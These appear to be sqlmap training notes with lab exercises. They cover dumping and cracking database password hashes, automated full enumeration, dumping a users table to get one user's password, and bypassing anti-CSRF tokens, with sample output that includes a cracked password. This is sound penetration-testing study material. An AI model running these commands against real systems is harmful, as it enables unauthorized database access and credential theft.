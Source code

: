 ### Cracking Database User Passwords
To dump and crack database-specific credentials:

```bash
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

**Example Output:**

```plaintext
[INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass
```

### Automating Enumeration
Use the `--all` and `--batch` switches to automate the entire enumeration process:

```bash
sqlmap -u "http://www.example.com/?id=1" --all --batch
```

Ejercicio7
  What's the name of the column containing "style" in it's name? (Case #1)
    ```sqlmap -r Case1.txt --batch --search -C style```

Ejercicio8
  What's the Kimberly user's password? (Case #1)
    ```sqlmap -r Case1.txt --batch --dump -D testdb -T users```

---

# Bypassing Web Application Protections

## Anti-CSRF Token Bypass

Anti-CSRF tokens are used to prevent automated tools from exploiting web applications. SQLMap can bypass this protection using the `--csrf-token` option. By specifying the token parameter name, SQLMap automatically updates the token value from the target response for subsequent requests.

### Example Command:
```bash
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

### Output:
```plaintext
POST parameter 'csrf-token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] y
```

---